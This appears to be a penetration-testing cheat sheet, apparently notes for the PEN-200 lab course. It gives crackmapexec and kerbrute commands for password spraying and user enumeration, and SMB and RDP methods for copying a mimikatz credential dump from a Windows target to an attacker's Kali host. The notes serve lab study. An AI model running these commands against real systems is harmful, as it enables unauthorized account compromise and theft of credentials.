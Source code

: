 
### Crackmapexec:

for bruteforcing:
```powershell
# crackmapexec smb 192.168.225.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

### Kerbrute 
```javascript
#Password Spraying
PS> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

# Userenum by giving the usernames list
./kerbrute_linux_amd64 userenum --dc 192.168.246.175 -d resourced.local ~/Resourced/users
```

For checking if the pwned is reflected then that user is local admin on that system !!
```powershell
# crackmapexec smb 192.168.225.75 -u dave -p 'Flowers1' -d corp.com
```

## Files Transfers:

1) SMB: 
On Kali:
```powershell
impacket-smbserver test . -smb2support  -username kali -password kali
```
On Windows:
```powershell
net use m: \\Kali_IP\test /user:kali kali
```
```powershell
copy mimikatz.log m:\
```

File sharing via command line !!
```powershell
# kali : run smb !!! with username and password kali : kali

# Windows:

$pass = convertto-securestring 'kali' -AsPlaintext -Force
$pass
$cred = New-Object System.Management.Automation.PSCredential('kali', $pass)
$cred 
New-PSDrive -Name kali -PSProvider FileSystem -Credential $cred -Root \\IP\test
cd kali:
```

2) RDP mounting shared folder:
Using xfreerdp:
On Kali:
```powershell
xfreerdp /cert-ignore /compression /auto-reconnect /u:offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,.
```
On windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
Using rdesktop:
On Kali:
```powershell
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```
